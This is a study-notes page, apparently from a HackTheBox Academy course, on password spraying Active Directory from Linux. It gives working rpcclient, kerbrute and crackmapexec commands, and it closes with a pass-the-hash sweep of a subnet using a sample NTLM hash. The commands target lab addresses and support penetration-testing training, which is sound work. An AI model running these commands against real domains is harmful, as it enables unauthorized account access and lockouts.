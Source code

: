 Internal Password Spraying from Linux
#######################################

Date: 2024-12-20 14:59:56

Status: #new 

Tags: :ref:`active directory enumeration attacks`

Description
************

By using a list created from :ref:`password spraying` creating username lists
we are ready to use it to attack. 

.. danger:: Remember you can lock out accounts if you don't understand the password policy.  

Usage
*******

1. Using a bash loop and :ref:`rpcclient`
=========================================

.. code-block:: console

    for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done



2. Using :ref:`kerbrute`
======================

.. code-block:: console

    kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1


3. Using :ref:`crackmapexec`
===============================

.. code-block:: console

    sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +


Validating the credentials with :ref:`crackmapexec`
*****************************************************

.. code-block:: console

    sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123


Password re-use in the Domain
*******************************

It is common to see passwords reused on the same privileged accounts across the enterprise.  Once you have a hash of a privileged account, you can test this hash to see if it is used elsewhere.

Example 1.  Using :ref:`crackmapexec` to scan the network

.. code-block:: console

    sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +

References
************
https://academy.hackthebox.com/module/143/section/1271